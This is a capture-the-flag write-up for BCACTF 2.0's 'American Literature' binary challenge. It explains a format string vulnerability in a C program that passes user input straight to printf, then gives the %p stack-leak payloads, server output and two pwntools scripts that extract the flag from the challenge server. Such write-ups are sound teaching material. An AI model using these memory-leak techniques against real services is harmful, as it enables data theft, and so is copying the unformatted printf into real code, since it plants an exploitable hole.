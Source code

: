 # American Literature

#### Category : binex
#### Points : 150 points (122 solves)
#### Author : Edward Feng

## Challenge
Writing essays is so much fun! Watch me write all these totally meaningful words about other words... Actually, wait. You shouldn't be reading my essays. Shoo!

-   [amer-lit.c](https://objects.bcactf.com/bcactf2/amer-lit/amer-lit.c)
-   [amer-lit](https://objects.bcactf.com/bcactf2/amer-lit/amer-lit)
-   `nc bin.bcactf.com 49157`

## Solution
Browsing through the source code of `amer-lit.c`, we realize that it has a format string vulnerability

#### Vulnerable Code
```cpp
	fgets(essay, sizeof(essay), stdin);
    essay[strcspn(essay, "\n")] = 0;
    length = strlen(essay);

    sleep(1);
    puts("");
    puts("TURNITIN SUBMISSION RECEIVED:");

    printf("╔═");
    for (int i = 0; i < length; ++i) printf("═");
    printf("═╗\n");

    printf("║ ");
    for (int i = 0; i < length; ++i) printf(" ");
    printf(" ║\n");

    printf("║ ");
    for (int i = 0; i < length; ++i) printf(" ");
    printf(" ║\n");

    printf("║ ");
    printf(essay);
```
It takes input from stdin, stores it in the variable `essay` and then prints it using `printf` but without any format specifier.

If in the input, we provide a bunch of `%p`, it will start leaking the stack and we could be able to leak the flag.

#### Leaking the flag
Connecting to the server and sending 30 `%p`, we get the following :
```bash
Let's see it!
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

TURNITIN SUBMISSION RECEIVED:
╔═══════════════════════════════════════════════════╗
║                                                   ║
║                                                   ║
║ 0x7fff1f6aeb10(nil)(nil)0x40x40x340000003400x31000003400x31000000310x340000003400x31000000000x562a02cbf2a00x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x25(nil)0x747b6674636163620x6e5f796c6c61746f0x6f6c706d655f746f0x6568745f676e69790x5f666f5f6573755f ║
║                                                   ║
║                                                   ║
╚═══════════════════════════════════════════════════╝
```
We can see that after the last `(nil)`, the hex appear to be ascii. If we convert `0x747b6674636163620` into ascii after reversing it, we get `bcact` which looks like the flag format.

Counting from start, it seems like it is the 20th `%p`. To confirm it we can connect to the server and send `%20$p` and indeed we get the same hex.
```bash
Let's see it!
%20$p

TURNITIN SUBMISSION RECEIVED:
╔═══════╗
║       ║
║       ║
║ 0x747b667463616362 ║
║       ║
║       ║
╚═══════╝
```

#### Getting the flag
So with that much info, we can just make a get_flag.py script which will take the hex, reverse it and concatenate to the flag.

```python
#!/usr/bin/python3
from pwn import *
context.log_level = 'critical'
host = "bin.bcactf.com"
port = 49157
flag = ""
for i in range(20,40):
    s = remote(host, port)
    s.recvuntil(b"Let's see it!")
    s.sendline("%"+str(i)+"$p")
    (s.recvuntil(b'0x'))
    try:
        flag = flag + (bytes.fromhex(s.recv()[:16].decode('ascii')).decode('ascii')[::-1])
    except:
        print(i)
        break
print(flag)

```
Doing this, almost gives us the flag
```bash
$ python3 get_flag.py
32
bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_required_word_limit_nope_not_
```
We just need to check the `%32$p` manually
```bash
%32$p

TURNITIN SUBMISSION RECEIVED:
╔═══════╗
║       ║
║       ║
║ 0x7ffe007d656d ║
║       ║
║       ║
╚═══════╝
```
Clearly, we just need the last 6 characters of the hex string.
So our [get_flag.py](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/American%20Literature/get_flag.py) becomes
```python
#!/usr/bin/python3
from pwn import *
context.log_level = 'critical'
host = "bin.bcactf.com"
port = 49157
flag = ""
for i in range(20,33):
    s = remote(host, port)
    s.recvuntil(b"Let's see it!")
    s.sendline("%"+str(i)+"$p")
    (s.recvuntil(b'0x'))
    if (i == 32):
        flag = flag + (bytes.fromhex(s.recv()[6:12].decode('ascii')).decode('ascii')[::-1])
        break
    flag = flag + (bytes.fromhex(s.recv()[:16].decode('ascii')).decode('ascii')[::-1])
print(flag)
```
```bash
$ python3 get_flag.py
bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_required_word_limit_nope_not_me}
```

flag : `bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_required_word_limit_nope_not_me}`